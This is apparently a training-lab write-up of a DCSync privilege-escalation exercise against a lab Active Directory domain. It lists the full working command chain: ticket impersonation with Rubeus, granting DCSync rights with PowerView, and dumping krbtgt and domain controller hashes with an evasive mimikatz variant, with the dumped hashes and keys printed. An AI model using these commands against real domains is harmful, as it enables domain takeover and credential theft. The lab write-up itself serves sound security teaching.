

# Learning Objective 12 (Replication Rights Abuse for DCSync Attack)

## Tasks

1. **Check if `student422` has `Replication` (DCSync) rights**
2. **If yes, execute the DCSync attack to pull hashes of the `krbtgt` user**
3. **If no, add the `Replication` rights for the `student422` and execute the DCSync attack to pull hashes of the `krbtgt` user**

---

## Solution

1. **Check if `student422` has `Replication` (DCSync) rights**

We can check if `student422` has replication rights using the following commands.


`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes    
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Group used for deny only❌
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student422"}`:
```
```
❌

3. **If no, add the `Replication` rights for the `student422` and execute the DCSync attack to pull hashes of the `krbtgt` user**

If the `student422` does not have replication rights, **let's add the rights**.

Start a process as domain administrator by running the below command from an elevated command prompt.


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : N0V3GD6B
[*] Domain          : LY3C5P4Q
[*] Password        : YPIV5X18
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 6912
[+] LUID            : 0x6d7248

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 7172680
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x6d7248
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/14/2025 4:58:23 AM
  EndTime                  :  2/14/2025 2:58:23 PM
  RenewTill                :  2/21/2025 4:58:23 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  XSkrPAU7Jxekw8JU5mrW0ZQCe55tElx6Hs8v9PrSmws=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```

Run the below commands in the new spawned process.



`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student422 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`:
```
[SNIP]

VERBOSE: [Add-DomainObjectAcl] Granting principal CN=student422📌,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local 'DCSync'📌
on DC=dollarcorp,DC=moneycorp,DC=local

[SNIP]
```

Let's check for the rights once again from the normal shell.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student422"}`:
```
AceQualifier           : AccessAllowed
ObjectDN               : DC=dollarcorp,DC=moneycorp,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set📌
ObjectSID              : S-1-5-21-719815819-3726368948-3917688648
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-719815819-3726368948-3917688648-20607
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
IdentityName           : dcorp\student422👤

AceQualifier           : AccessAllowed
ObjectDN               : DC=dollarcorp,DC=moneycorp,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes📌
ObjectSID              : S-1-5-21-719815819-3726368948-3917688648
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-719815819-3726368948-3917688648-20607
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
IdentityName           : dcorp\student422👤

AceQualifier           : AccessAllowed
ObjectDN               : DC=dollarcorp,DC=moneycorp,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All📌
ObjectSID              : S-1-5-21-719815819-3726368948-3917688648
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-719815819-3726368948-3917688648-20607
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
IdentityName           : dcorp\student422👤
```
🚩

2. **If yes, execute the DCSync attack to pull hashes of the `krbtgt` user**

Sweet! Now, below command (or any similar tool) can be used as `student422` to get the hashes of `krbtgt` user or any other user.


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\krbtgt📌
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 9:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986🔑
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848🔑
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

[SNIP]
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\dcorp-dc$" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\dcorp-dc$
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\dcorp-dc$' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : DCORP-DC

** SAM ACCOUNT **

SAM Username         : DCORP-DC$👤
Account Type         : 30000001 ( MACHINE_ACCOUNT )
User Account Control : 00082000 ( SERVER_TRUST_ACCOUNT TRUSTED_FOR_DELEGATION )
Account expiration   :
Password last change : 2/5/2025 9:02:28 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-1000
Object Relative ID   : 1000

Credentials:
  Hash NTLM: 68d6c096c7cfee52a45d6207489526bc🔑
    ntlm- 0: 68d6c096c7cfee52a45d6207489526bc
    ntlm- 1: d79ad890d24d8df4936f85bf11d8fd5b
    ntlm- 2: 22f01da668a849cfc8dd5b0c36ef3ab4
    ntlm- 3: f2180db8f899b59543d56f16bb7cff59
    ntlm- 4: 627ae7e6fd4b72ad1ec9808c773a5a5b
    ntlm- 5: d31bad6c1cf5712baeac4c7b1ae8abd0
    ntlm- 6: 268b8d00e7f18cb0bf68cb2b08345ad3
    ntlm- 7: 9528de61ea331943d6bfc53c869627b3
    ntlm- 8: 68aaa6d7419d74ec06cbd45710a06fbd
    ntlm- 9: 0815b43c065b92dfcc497f0beef12480
    ntlm-10: 915a88647de381e31663e5e4a0939cab
    ntlm-11: 83471b07629c4a77e5514d9754f6b853
    ntlm-12: 77f9b24843b43c08b1a4f6a3bb849b56
    ntlm-13: 3b08222797d52a17c3fe48b370cfc8e1
    ntlm-14: 1be12164a06b817e834eb437dc8f581c
    ntlm-15: 402fa2cfac3e58e2187a056b204d85c5
    lm  - 0: 9574cca8ae4b925cbe3e8b22c9153b16
    lm  - 1: bdceaf0607c329bcbf0562fe750c16d1
    lm  - 2: 5d312b6d9d8cc27597308d349789c002
    lm  - 3: 66970750552174b18bdaa7ecef7c241a
    lm  - 4: e70810c4999d3f485cc9074247d4a343
    lm  - 5: 03a7fa039bd63ef18dd0c6f479d52f57
    lm  - 6: 9c05844298a87c7ad7b6b907cf7c2eea
    lm  - 7: bc56c097d25dc1531bcb56a052011e3f
    lm  - 8: 6cb8d29dfb0efe14f04ee7a795cc3b78
    lm  - 9: 09ba339c8d917936ae43975891101ca6
    lm  -10: 3039abc4b8d398898adf5f396466ac5e
    lm  -11: dad64f9a838fdb0dfff1066092e0726b
    lm  -12: b72a11b827af9320fda43d8356af8479
    lm  -13: 6f1825c909da6a8ccfbbd1f140dda9f0
    lm  -14: b94edbc472b4f5068a4bf9998d5f6048

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALhostdcorp-dc.dollarcorp.moneycorp.local
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : bf32456704e1f1c1abaf07d210514339283201990a128b85d31cea103e7a39c2🔑
      aes128_hmac       (4096) : acf4e3984964a674209dae10e154decf
      des_cbc_md5       (4096) : e629cbf7323d32a4
    OldCredentials
      aes256_hmac       (4096) : 58a1c09fff169c645907d516c6de0583736abd1f4853c079bef3fabe13aa1534
      aes128_hmac       (4096) : ff568bc0fede2938d209109a69211ef7
      des_cbc_md5       (4096) : 7a6d867564f2629d
    OlderCredentials
      aes256_hmac       (4096) : d8474f4ed8b431c3daf26dfc0df51f6944bad633cba45c140dc710273d3840fb
      aes128_hmac       (4096) : 728b9cfe02f459a357924c664f9ff3b8
      des_cbc_md5       (4096) : 64dcc1d9c734dca2

* Primary:Kerberos *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALhostdcorp-dc.dollarcorp.moneycorp.local
    Credentials
      des_cbc_md5       : e629cbf7323d32a4
    OldCredentials
      des_cbc_md5       : 7a6d867564f2629d

[SNIP]
```
🚩

---
---
